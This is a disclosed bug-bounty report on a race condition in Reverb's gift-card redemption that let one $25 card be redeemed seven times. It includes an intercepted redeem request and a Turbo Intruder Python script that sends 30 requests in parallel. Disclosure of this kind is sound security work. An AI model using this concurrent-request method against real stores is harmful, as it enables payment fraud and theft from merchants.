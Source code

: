 # Race Condition allows to redeem multiple times gift cards which leads to free "money"

## Report Details
- **Report ID**: 759247
- **URL**: https://hackerone.com/reports/759247
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-12-16T09:54:54.977Z
- **Disclosed**: 2020-01-25T17:58:21.425Z

## Reporter
- **Username**: muon4
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: reverb

## Vulnerability Information
Hello team!

I've found a Race Condition vulnerability which allows to redeem gift cards multiple times. This how a s/he can easily buy stuff just bying one gift card and redeem it over and over again.


## Steps to reproduce

### Preparations
- Burp Suite Pro
- Turbo Intruder

Note: This also can be reproduced other way but this is maybe the easiest

### The attack

- Login
- Buy a gift card
- Now redeem it at `https://sandbox.reverb.com/<lang>/redeem`
- Intercept the request which will be following:

```
POST /fi/redeem HTTP/1.1
Host: sandbox.reverb.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://sandbox.reverb.com/fi/redeem
Content-Type: application/x-www-form-urlencoded
Content-Length: 176
Connection: keep-alive
Cookie: <cookies>

utf8=%E2%9C%93&authenticity_token=<CSRF token>&token=<GIFT card>&commit=Redeem+Now
```

- Send it to the turbo intruder
- Use this python code as a payload of the turbo intruder

```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=30,
                           requestsPerConnection=30,
                           pipeline=False
                           )

   for i in range(30):
	engine.queue(target.req, i)
        engine.queue(target.req, target.baseInput, gate='race1')


    engine.start(timeout=5)
   engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
	table.add(req)
```

- Now set the external HTTP header `x-request: %s` - This is needed by the turbo intruder
- Click "Attack" 
- See multiple 200 OK responses:

{F660741}

- Check your Reverb bucks and see that you have a way more money than the gift card actually was worth of:

{F660740}

In my case I bought one gift card which was worth of 25$ and as we can see from the picture I was able to redeem it 7 times which makes 25*7 = 175$.

If you need any information please let me know.

Cheers!

## Impact

Race Condition can be used for get almost free stuff and steal money.

## Attachments
- reverb.png
- reverb-ti.png
